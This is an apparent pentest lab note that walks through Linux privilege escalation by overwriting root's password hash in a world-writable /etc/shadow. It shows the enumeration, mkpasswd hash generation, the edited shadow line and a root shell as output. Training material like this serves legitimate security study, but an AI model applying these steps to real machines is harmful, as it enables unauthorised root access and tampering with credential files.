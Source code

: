 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

1. Check the permissions of the /etc /shadow file:
2. 
3.  ![[Pasted image 20211230133000.png]]


```bash - target
./lse.sh -l 1 -i | more
```

```bash - target
ls -l /etc/shadow
```

>-rw-r—rw- 1 root shadow 810 May 13 2017 /etc/shadow

Note that it is world writable.

2. Copy / save the contents of /etc/shadow so we can restore it later.

3. Generate a new SHA-512 password hash:

```bash - kali
mkpasswd -m sha-512 newpassword
```

```bash - kali
$6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoOlL9VEWwO/okK3vi1IdVaO9.xt4IQMY4OUj/
```

4. Edit the /etc/shadow and replace the root user’s

password hash with the one we generated.

```bash - target
root:$6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoOlL9VEWwO/okK3vi1IdVaO9.xt4IQMY4OUj/:17298:0:99999:7:::
```

5. Use the su command to switch to the root user,

entering the new password when prompted:

```bash - target
su
```

```bash - target
newpassword
```

```bash - target
id
```

>uid=0(root) gid=0(root) groups=0(root)


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
